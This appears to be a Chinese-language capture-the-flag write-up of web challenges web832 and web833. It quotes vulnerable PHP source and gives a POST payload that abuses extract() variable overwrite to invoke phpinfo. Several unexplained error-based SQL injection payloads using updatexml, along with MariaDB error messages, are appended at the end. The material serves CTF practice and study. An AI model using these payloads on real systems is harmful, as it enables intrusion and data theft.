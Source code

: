 ## web832

+++

直接看源码，对上口号
<font color='red'>**网络安全靠人民 网络安全为人民**</font>

+++

## web833

+++

提示robots.txt泄露，拿到源码

```php
<?php

error_reporting(0);

function getFilter($index=0){
    $filter=["strip_tags","addslashes"];
    return $index?$filter[1]:$filter[0];
}

function getHandle(){
    $filter=getFilter();
    $say=function($array) use (&$filter){
        extract($array);
        $hello=$filter($name);
        return $hello;
    };
    return $say;
}

$msg=getHandle();
$message="hello ".$msg($_REQUEST);
?>
```

有一个**extract**可以变量覆盖，最下面的`$message="hello ".$msg($_REQUEST);`给了执行函数的入口
直接`POST  name=-1&filter=phpinfo`
在phpinfo里面找到flag

代码有点难懂，但其实做题不困难，`$say=function($array) use (&$filter)`这句话是最关键的，相当于执行函数的
可以自己本地调试

+++

 

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'union select 1,user(),database()#'' at line 1



**You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'union select 1,2,3;#'' at line 1**



1' and updatexml(1,concat(0x7e,group_concat(select table_name from information_schema.tables where table_schema=database()),0);#



kobe' and updatexml(1,concat(0x7e,(select right(flag,25) from app_flag)),0);#

